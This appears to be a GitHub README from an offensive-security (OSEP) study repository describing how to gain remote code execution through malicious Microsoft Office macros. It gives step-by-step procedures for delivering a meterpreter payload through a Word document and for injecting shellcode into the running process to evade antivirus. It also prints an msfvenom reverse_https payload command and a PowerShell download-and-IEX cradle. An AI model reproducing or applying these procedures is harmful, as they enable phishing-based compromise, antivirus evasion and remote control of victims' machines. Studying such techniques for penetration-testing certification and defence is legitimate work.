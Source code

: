 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open, but the are three main ways to gain RCE leveraging this scripts.

<br>

### Simple VBA way.

The simply VBA way works with in an enviroment with no AV or EDR mechanism enabled.

1. We craft a meterpreter executable with the help of [msfvenomPayloads.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/msfvenomPayloads.sh) script.

2. Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) in order to download and store in the victim machine the msfvenom payload we crafted before and then we execute it. 

3. Finally, with the PSHTTPDownloader.vba, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document. 

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Is worth to mention that, because we store the malware on the hard disk (since we download a binary), an AV can detect malicious hash on this file and because we simply execute the payload, we create a new process that is checked by the AV before it get properly executed so is also suscetible to be caneceled.

Thus, we terminate this part by saying that this method of gain RCE on a machine is highly insecure.

<br>

### Inyecting shellcode on an existing process.

There are more sofistaced ways to gain RCE that avoids defense mechanism, here we will see two; with VBA and with PowerShell mixed with VBA.

<br>

#### The VBA way.

We can directly create a macro that stores a shellcode and execute it.

1. First we create a Shellcode for a 'vbaapplication' making use of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh)

2. Then, make use of the [ShellCode.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/ShellCode.vba) and paste on it the crafted shellcode. 

3. With the ShellCode.vba finished, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).


This method is kind of more reliable than the one before because the ShellCode.vba make use of a Win32 API; *CreateThread*, that creates an execution thread on the current process (inyecting code) effectively bypassing the execution process cheking by the AV that only happens at the launching of a new process. 

However, this still a dangerous way because we still storing malicious code on the hardisk; the proper shellcode.vba macro.

<br>

#### Make use of PowerShell resources.

We can execute the code of a remote script by using some Powershell methods.

1. First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file for a 'ps1' application, this is:

    ```powershell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f ps1
    ```
2. Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) script.

3. Then, we make use of [LaunchinApp_Shell.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/LaunchinApp_Shell.vba) to execute a PowerShell program that downloads and executes the prepared VBAenvlauncher.ps1 script. The line stored on the *str* var must be:

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
    ```

Replacing the \<URL\> and \<OUTFILE\> with the proper vaules.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation.

<br>